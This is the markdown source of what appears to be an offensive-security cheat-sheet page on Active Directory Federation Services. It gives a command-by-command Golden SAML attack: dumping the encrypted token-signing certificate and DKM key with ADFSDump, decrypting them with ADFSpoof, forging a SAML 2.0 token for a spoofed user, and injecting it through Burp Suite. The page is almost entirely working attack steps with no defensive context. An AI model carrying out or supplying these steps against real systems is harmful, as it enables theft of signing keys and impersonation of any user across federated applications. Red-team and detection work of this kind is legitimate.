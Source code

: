 ```yaml
---
title: "ADFS"
date: 2024-9-14
tags: ["ADFS", "active driectory", "ad", "Windows", "Federation Services", "SAML"]
---
```


### Abuse #1: Generate a SAML 2.0 token for some app

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Dump encrypted PFX and DKM key

```console
# With ADFS service account
.\ADFSDump.exe
```

<small>*Ref: [ADFSDump](https://github.com/mandiant/ADFSDump)*</small>

#### 2. Convert to binary blob

```console
# Copy private key(s)
echo '<PRIVATE_KEY>' | sed 's/-//g' | xxd -r -p > DkmKey.bin
```

```console
# Copy Encrypted Token Signing Key Begin ... Encrypted Token Signing Key End
cat b64_blob | base64 -d > EncryptedPfx.bin
```

#### 3. Check which private key is correct

```console
# The correct key will not show error
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin dump
```

<small>*Ref: [ADFSpoof](https://github.com/mandiant/ADFSpoof)*</small>

#### 4. Generate SAML 2.0 token

```console
# Copy info from ADFS dump
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s <SERVER> saml2 --endpoint <SIGN_IN_ENDPOINT> --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid <SPOOF_USER>@<DOMAIN> --rpidentifier <IDENTIFIER> --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue><SPOOF_USER>@<DOMAIN></AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue><SPOOF_USER></AttributeValue></Attribute>' 
```

#### 5. Modify request in BurpSuite

```console
+-------------------------------------------------------------+
| 1. Enable Intercept in Proxy Tab                            |
| 2. Sign In with the Web App                                 |
| 3. Click Forward until the POST request with 'SAMLResponse' |
| 4. Replace the payload and Forward                          |
| 5. Disable Intercept and profit                             |
+-------------------------------------------------------------+
```

{{< /tabcontent >}}
